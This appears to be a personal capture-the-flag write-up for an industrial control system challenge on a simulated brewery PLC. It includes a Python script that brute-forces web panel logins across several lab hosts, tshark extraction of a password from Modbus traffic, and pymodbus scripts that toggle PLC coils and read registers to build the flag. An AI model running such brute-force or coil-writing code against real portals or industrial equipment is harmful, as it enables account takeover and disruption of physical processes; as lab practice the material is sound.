



Same as usual I will perform a full scan of all the TCP ports open on the machine.

```bash
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Werkzeug httpd 3.0.1 (Python 3.9.18)
|_http-server-header: Werkzeug/3.0.1 Python/3.9.18
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET
| http-title: AutomateX v3.0 - Log-in
|_Requested resource was /panel/login
|_http-favicon: Unknown favicon MD5: 0F3DE871EF03C6DEFBC30A9950F28C6C
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
TCP/IP fingerprint:
OS:SCAN(V=7.99%E=4%D=4/21%OT=80%CT=%CU=44143%PV=Y%DS=2%DC=T%G=N%TM=69E7CBB5
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=9)OPS(
OS:O1=M54EST11NW7%O2=M54EST11NW7%O3=M54ENNT11NW7%O4=M54EST11NW7%O5=M54EST11
OS:NW7%O6=M54EST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M54ENNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%R
OS:UD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 19.235 days (since Thu Apr  2 15:31:52 2026)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   451.43 ms 192.168.255.1
2   451.45 ms 172.19.1.4


```

# HTTP

From the frontend I can see this should be a portal to the Automatex login page? The same where I onbtained the creds from the pdf


But the next day, I went back to the guide I obtained by the EW machine and apparently the guide defines some default credentials so far:


Now I wrote a quick script to enumerate all the users and the logins in order to see what is working so far:

```python
import requests

# 1. Configuration lists
ips = ["172.19.9.2", "172.19.9.4", "172.19.9.6", "172.19.9.8", "172.19.9.10", "172.19.9.12"]
users = ["guest", "operator", "administrator"]
password_file = "passwords.txt"

def brute_all():
    # Load passwords once into memory for speed
    try:
        with open(password_file, 'r') as f:
            passwords = [line.strip() for line in f if line.strip()]
    except FileNotFoundError:
        print(f"Error: {password_file} not found.")
        return

    for ip in ips:
        url = f"http://{ip}/panel/login"
        print(f"\n--- Testing Target: {ip} ---")
        
        for user in users:
            print(f"  Attempting user: {user}")
            
            # New session per user/IP combo to keep cookies clean
            session = requests.Session()
            
            for password in passwords:
                payload = {"username": user, "password": password}
                headers = {
                    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36",
                    "Referer": url
                }

                try:
                    # allow_redirects=False to catch that 302 Found response
                    response = session.post(url, data=payload, headers=headers, allow_redirects=False, timeout=5)

                    if response.status_code == 302 and "/panel/dashboard" in response.headers.get("Location", ""):
                        print(f"    [!] SUCCESS: {ip} | {user}:{password}")
                        # Move to next user or IP after success if desired
                        break 
                    
                except requests.exceptions.RequestException as e:
                    print(f"    [!] Connection error on {ip}: {e}")
                    break # Skip to next IP if host is down

if __name__ == "__main__":
    brute_all()
```

# Getting the PCAP

Now I suspoect I need to get the password from the pcap and i googled a bit about older CTF and I stubled upon [this](https://notcicada.medium.com/write-up-the-magic-modbus-2692eaf5ee73) article.

Now filtering the modbut traffic I can see that severar operations of read and write registry & coils has been made:


Now seems like most of the queries has lenght of 6 both for query and responses, in most of the cases:


Now with Gemini I tried to filter only the "Write Registries" and I see much more promising data:

```bash
tshark -r lautering_password_check.pcap -Y "modbus.func_code == 6" -T fields -e modbus.regval_uint16
12
12
12
12
12
12
12
12
56
56
90
90
65
65
110
110
51
51
84
84
77
77
122
122
67
67
49
49
64
64
106
106
42
42
75
75
85
85
33
33
12
12
12
0
12
0
12
0
12
0
12
0
12
0
12
13
12
10
12
0
12
0
12
0
12
0
12
0
12
0

```

Now since there are ascii it might be possible to get this as the password:

```bash
onverting these decimal ASCII codes to characters:
    56: 8

    56: 8

    90: Z

    65: A

    110: n

    51: 3

    84: T

    77: M

    122: z

    67: C

    49: 1

    64: @

    106: j

    42: *

    75: K

    85: U

    33: !

The resulting string is: 88ZAn3TMzC1@j*KU!
```

But this password is not working so since i dont trust AI I parsed the whole ASCII and it looks more like this (88ZZAAnn33TTMMzzCC11@@jj\*\*KKUU!!)?  


# Back on the flag

Now I was reading the spreadsheed pdf and I found that all the write permission requires password?  


Now apparently i need to use the (0x17 = 23 function) to r+w multiple params:  


# The second day

Now with the credentials for the Axel user and i can see that even this challenge requires me to find and replace the values:  


Now I need to take into consideration the spreadsheet as there will be some changes for some values...



And from the ST code I can see the variable mappings:

```st
PROGRAM boiling
  VAR_EXTERNAL
    master : BOOL;
    stop_intake_a : BOOL;
    kettle_temp : INT;
  END_VAR
  VAR_INPUT
    ultrasonic_level : INT;
  END_VAR
  VAR_OUTPUT
    boil_time : TIME;
    boil_timer : TIME;
  END_VAR
  VAR_INPUT
    start : BOOL;
    stop : BOOL;
  END_VAR
  VAR_OUTPUT
    cycle_on : BOOL;
    intake_pump_material_a : BOOL;
    agitator_motor : BOOL;
    end_boil : BOOL;
    output_valve : BOOL;
    ELS : BOOL;
    start_boil : BOOL;
    start_bittering_hops AT %QX1.1 : BOOL;
    start_aroma_hops AT %QX1.2 : BOOL;
    start_flavor_hops AT %QX1.3 : BOOL;
    final_boil : BOOL;
    sp_star_boil_timer_temp : INT;
    sp_agitator_speed : INT;
    sp_material_a : INT;
    sp_boil_time AT %MW3 : INT;
    sp_final_boil_time AT %MW4 : INT;
    sp_bittering_hops_time AT %MW5 : INT;
    sp_flavor_hops_time AT %MW6 : INT;
    sp_aroma_hops_time AT %MW7 : INT;
    sp_bittering_hops_amount_1 AT %MW1024 : INT;
    sp_bittering_hops_amount_2 AT %MW1025 : INT;
    sp_flavor_hops_amount_1 AT %MW1026 : INT;
    sp_flavor_hops_amount_2 AT %MW1027 : INT;
    sp_aroma_hops_amount_1 AT %MW1028 : INT;
    sp_aroma_hops_amount_2 AT %MW1029 : INT;
    boil_timer_int : INT;
  END_VAR
  VAR
    TON1 : TON;
    _TMP_INT_TO_TIME72_OUT : TIME;
    _TMP_GE15_OUT : BOOL;
    _TMP_GE14_OUT : BOOL;
    _TMP_TIME_TO_INT75_OUT : INT;
    _TMP_GE23_OUT : BOOL;
    _TMP_GE34_OUT : BOOL;
    _TMP_GE41_OUT : BOOL;
    _TMP_GE70_OUT : BOOL;
  END_VAR

```

Now the RH are mapped from the offset 1024 where MW3 is (1024+3=1027) but the QX.x.y looks like this one:  


Then from the challenge we know that there will be floating numbers but the PLC can only accomodate INT and BOOLS;  


Now after many attempts the Ai gissested to use this:

```python
from pymodbus.client import ModbusTcpClient
from pymodbus.constants import Endian
from pymodbus.payload import BinaryPayloadDecoder
from time import sleep

client = ModbusTcpClient("172.19.7.5", port=502)

def get_val(coil, reg):
    client.write_coil(coil, True)
    sleep(5)  # Single wait for PLC to populate register
    res = client.read_holding_registers(reg, 2)
    client.write_coil(coil, False) # Turn off immediately to unblock next stage
    
    decoder = BinaryPayloadDecoder.fromRegisters(res.registers, Endian.Big, Endian.Big)
    return decoder.decode_32bit_float()

if client.connect():
    # Sequential reads: Trigger -> Read -> Release
    b_amt = get_val(9, 2048)
    f_amt = get_val(10, 2050)
    a_amt = get_val(11, 2052)

    # Static times (MW3-MW7)
    t = client.read_holding_registers(1027, 5).registers

    flag = (f"ALCHEMY{{84d_d3519n_134d5_70_d474_134ks_"
            f"{t[0]}_{t[2]}_{t[3]}_{t[4]}_{t[1]}_"
            f"{b_amt:.2f}_{f_amt:.2f}_{a_amt:.2f}}}")
    
    print(flag)
    client.close()

```

Which gives almost a good gflag except the laqst 2 vallues:

```bash
└─$ python3 geminimerda.py                                                     
ALCHEMY{84d_d3519n_134d5_70_d474_134ks_11100_900_3600_5100_5820_32.40_18.52_12.68}

```

Now here is where it gets disgusting as the values are totally correct but the order is not. Apparenntly this is the issue:

```txt
he logic boils down to timing and isolation. The "bad design" refers to how the PLC processes data and how the flag measures time.
1. The Time Logic (Subtraction)

The flag doesn't want the raw setpoints (900,3600, etc.); it wants the duration of each phase.

    How it works: The PLC uses one master timer. To find the length of a specific step, you subtract the previous setpoint from the current one.

    Example: If Stage A is at 900 and Stage B is at 3600, the duration of Stage B is 2700.

2. The Memory Logic (Isolation)

The PLC only "shares" the hop amounts to the Modbus registers when a specific coil is active.

    The Conflict: Because of internal safety rules (interlocks), turning on one stage (like Aroma) often automatically blocks the data from the previous stage (like Flavor).

    The Fix: You must pulse the coils one by one. Turn a coil on, wait for the PLC to move the data, read it, and then turn it off so it doesn't block the next read.
```

Again, gemini suggested to use this, which calculates the time diff as well(or better to say time duration):

```python
from pymodbus.client import ModbusTcpClient
from pymodbus.constants import Endian
from pymodbus.payload import BinaryPayloadDecoder
from time import sleep

client = ModbusTcpClient("172.19.7.5", port=502)

def get_val(coil, reg):
    client.write_coil(coil, True)
    sleep(5) 
    res = client.read_holding_registers(reg, 2)
    client.write_coil(coil, False)
    decoder = BinaryPayloadDecoder.fromRegisters(res.registers, Endian.Big, Endian.Big)
    return decoder.decode_32bit_float()

if client.connect():
    # 1. Get Amounts
    b_amt = get_val(9, 2048)
    f_amt = get_val(10, 2050)
    a_amt = get_val(11, 2052)

    # 2. Get Raw Setpoints from 1027-1031
    # [0]=sp_boil, [1]=sp_final_boil, [2]=sp_bittering, [3]=sp_flavor, [4]=sp_aroma
    r = client.read_holding_registers(1027, 5).registers

    # 3. Calculate Durations (The "Leaked" design logic)
    d1 = r[2]           # initial_boil_time (0 to 900)
    d2 = r[3] - r[2]    # bittering_hops_add_time (3600 - 900)
    d3 = r[4] - r[3]    # flavor_hops_add_time (5100 - 3600)
    d4 = r[1] - r[4]    # aroma_hops_add_time (5820 - 5100)
    d5 = r[0] - r[1]    # final_boil_duration (11100 - 5820)

    # 4. Final Flag Construction
    flag = (f"ALCHEMY{{84d_d3519n_134d5_70_d474_134ks_"
            f"{d1}_{d2}_{d3}_{d4}_{d5}_"
            f"{b_amt:.2f}_{f_amt:.2f}_{a_amt:.2f}}}")
    
    print(flag)
    client.close()
    
```

And finally this is the flag:

```bash
─$ python3 geminimerda.py
ALCHEMY{84d_d3519n_134d5_70_d474_134ks_900_2700_1500_720_5280_32.40_18.52_12.68}
```

&nbsp;